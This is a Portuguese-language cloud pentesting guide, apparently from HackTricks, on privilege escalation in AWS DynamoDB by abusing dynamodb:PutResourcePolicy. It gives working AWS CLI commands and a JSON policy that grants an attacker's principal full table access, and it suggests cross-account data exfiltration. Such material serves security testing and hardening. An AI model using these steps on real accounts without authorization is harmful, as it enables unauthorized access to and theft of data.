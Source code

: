 # AWS - DynamoDB Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## dynamodb

Para mais informações sobre dynamodb consulte:

{{#ref}}
../../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, e opcionalmente `dynamodb:GetResourcePolicy`

Desde março de 2024, a AWS oferece *políticas baseadas em recursos* para DynamoDB ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Então, se você tem o `dynamodb:PutResourcePolicy` para uma tabela, você pode simplesmente conceder a si mesmo ou a qualquer outro principal acesso total à tabela.

Conceder o `dynamodb:PutResourcePolicy` a um principal aleatório frequentemente acontece por acidente, se os administradores pensarem que conceder `dynamodb:Put*` permitiria apenas que o principal inserisse itens no banco de dados — ou se eles concederam esse conjunto de permissões antes de março de 2024...

Idealmente, você também tem `dynamodb:GetResourcePolicy`, assim não sobrescreve outras permissões potencialmente vitais, mas apenas injeta as permissões adicionais que você precisa:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Se não conseguir recuperar a política atual, use esta que concede acesso total à tabela ao seu principal:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Se precisar personalizá-la, aqui está uma lista de todas as possíveis ações do DynamoDB: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). E aqui está uma lista de todas as ações que podem ser permitidas via uma política baseada em recurso *E quais delas podem ser usadas cross-account (pense em data exfiltration!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Agora, com o documento de política `policy.json` pronto, coloque a política baseada em recurso:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Agora, você deve ter as permissões necessárias.

### Post Exploitation

Pelo que sei, não existe **outra forma direta de escalate privileges in AWS apenas por ter algumas permissões do AWS `dynamodb`**. Você pode **ler informações sensíveis** das tabelas (que podem conter credenciais AWS) e **escrever informações nas tabelas** (o que pode acionar outras vulnerabilidades, como lambda code injections...) mas todas essas opções já são consideradas na **DynamoDB Post Exploitation page**:

{{#ref}}
../../aws-post-exploitation/aws-dynamodb-post-exploitation/README.md
{{#endref}}

### TODO: Read data abusing data Streams

{{#include ../../../../banners/hacktricks-training.md}}
